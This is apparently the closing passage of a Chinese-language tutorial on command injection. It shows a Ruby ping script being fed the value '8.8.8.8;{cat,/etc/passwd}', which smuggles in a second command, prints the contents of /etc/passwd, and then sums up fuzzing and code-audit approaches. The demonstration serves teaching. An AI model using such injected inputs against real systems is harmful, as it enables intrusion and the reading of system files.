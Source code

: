 



读取**/etc/passwd**下的内容：

```
$ ruby ping.rb '8.8.8.8;{cat,/etc/passwd}'
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: icmp_seq=0 ttl=46 time=9.215 ms
64 bytes from 8.8.8.8: icmp_seq=1 ttl=46 time=10.194 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=46 time=10.171 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=46 time=8.615 ms
 
--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 8.615/9.549/10.194/0.668 ms
##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode. At other times this information is provided by
# Open Directory.
...
```







## 总结

明确了 对于  命令注入类 漏洞的fuzz问题 就是 基于输入端 做畸形闭合符号黑盒测试

明确 对于 命令注入类漏洞的框架 挖掘类问题  还是要基于 代码审计 测试  经验 方面